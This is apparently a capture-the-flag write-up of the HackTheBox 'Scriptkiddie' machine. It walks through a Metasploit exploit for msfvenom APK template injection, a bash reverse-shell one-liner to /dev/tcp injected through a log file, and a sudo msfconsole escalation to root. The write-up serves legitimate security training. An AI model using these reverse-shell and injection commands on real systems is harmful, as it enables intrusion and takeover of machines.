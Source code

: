 # Hackthebox: Scriptkiddie writeup

Scriptkiddie is an easy box which is based around using a hacker's tools against them. Definitely an interesting concept that taught me we also need to be careful even if we're technically minded.

## Enumeration

First of all, running nmap to check for open ports:

```
nmap -p- 10.10.10.226

Starting Nmap 7.60 ( https://nmap.org ) at 2021-06-05 12:26 BST
Nmap scan report for scriptkiddie.htb (10.10.10.226)
Host is up (0.017s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp

Nmap done: 1 IP address (1 host up) scanned in 9.76 seconds
```

I check out `http://scriptkiddie.htb:5000/`, which seems to have a few options: nmap, payload generation, and searchsploit.
I eventually noticed that in the payload generation there's an option to generate a payload with android which seemed unusual.
After some googling, there seems to be a vulnerability (https://www.exploit-db.com/exploits/49491) with msfvenom's apk payload generation. 
It seems possible to manufacture a .apk template for the msfvenom command which allows us to run a command on the remote system.

## Foothold

Looking up in `msfconsole`, there seems to be an exploit for it there that we can use:
```
   0  exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection  2020-10-29       excellent  No     Rapid7 Metasploit Framework msfvenom APK Template Command Injection

msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/reverse_netcat

msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > show options

Module options (exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FILENAME  msf.apk          yes       The APK file name


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  127.0.0.1        yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set lhost 10.10.?.?
lhost => 10.10.?.?
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > run

```

This will generate the evil apk file:

```
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > run

[+] msf.apk stored at /home/erry/.msf4/local/msf.apk
```

Now we have to start a reverse shell ourselves on the host and port that we specified earlier.

```
erry@erry-Virtual-Machine:~/hax$ nc -lvnp 4444
Listening on [0.0.0.0] (family 0, port 4444)
```

Go back to the scriptkiddie website. Select OS: android , lhost: 127.0.0.1 (it doesn'#t matter), and as template file select the evil apk generated earlier.

Wait on our reverse shell, seems like we got a connection:

```
erry@erry-Virtual-Machine:~/hax$ nc -lvnp 4444
Listening on [0.0.0.0] (family 0, port 4444)

Connection from 10.10.10.226 32962 received!

id
uid=1000(kid) gid=1000(kid) groups=1000(kid)
```

## User Flag

It seems we have a connection from the user `kid`. 
We can directly read `/home/kid` and `/home/kid/user.txt`.
Congrats, you have the user flag!
```
cat /home/kid/user.txt
```


If desired, we can add our public key in `/home/kid/.ssh/authorized_hosts` to be able to easily access the machine in future.

## Privesc (pwn)

It doesn't look like `kid` can do much and we do not have sudo password.
However, checking around the system it seems that there is another user that may be interesting:


```
kid:x:1000:1000:kid:/home/kid:/bin/bash
pwn:x:1001:1001::/home/pwn:/bin/bash
```

We can read pwn's home dir and we find this file:

```
kid@scriptkiddie:~$ cat /home/pwn/scanlosers.sh
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

It looks like the pwn user is constructing an nmap command based on the `/home/kid/logs/hackers` file. 
Maybe we can take advantage of that running command to run a command of our own when the script runs?

After some crafting, we have a string that we can put in the `logs/hackers` file:

```
  ;  /bin/bash -c "bash -i >& /dev/tcp/10.10.x.x/4442 0>&1" #
```

The space in front is for the `cut -d ' ' -f3-` command because it will grab the string after 2 spaces. This will force the executed command to be like this:

```
sh -c "nmap --top-ports 10 -oN recon/; /bin/bash -c 'bash -i >& /dev/tcp/10.10.x.x/4442 0>&1' # rest of command here"
```

which will force a bash shell to open as `pwn`.

Now we have the connection on our reverse shell!

```
pwn@scriptkiddie:~$ id
id
uid=1001(pwn) gid=1001(pwn) groups=1001(pwn)
pwn@scriptkiddie:~$
```

# Privesc (root)

Right away we see that we have sudo:

```
pwn@scriptkiddie:~$ sudo -l
sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

It looks like we can run msfconsole as root.

```
pwn@scriptkiddie:~$ sudo msfconsole
sudo msfconsole
```

now we can just run `bash` through msfconsole.

```
id
uid=0(root) gid=0(root) groups=0(root)
```

```
cat /root/root.txt
```

Congrats, we have the root flag!

